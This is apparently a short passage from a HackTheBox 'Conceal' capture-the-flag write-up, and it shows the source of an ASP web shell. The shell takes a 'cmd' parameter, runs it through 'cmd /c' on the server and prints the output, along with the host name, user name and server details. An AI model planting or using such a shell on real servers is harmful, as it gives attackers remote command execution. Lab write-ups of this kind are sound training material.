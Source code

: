 ```
<BODY>
<FORM action="" method="GET">
<input type="text" name="cmd" size=45 value="<%= szCMD %>">
<input type="submit" value="Run">
</FORM>
<PRE>
<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
<%Response.Write(Request.ServerVariables("server_name"))%>
<p>
<b>The server's port:</b>
<%Response.Write(Request.ServerVariables("server_port"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("server_software"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("LOCAL_ADDR"))%>
<% szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write(thisDir)%>
</p>
<br>
</BODY>
</HTML>
```
![](/images/hackthebox/conceal/17.png)
<br>
<br>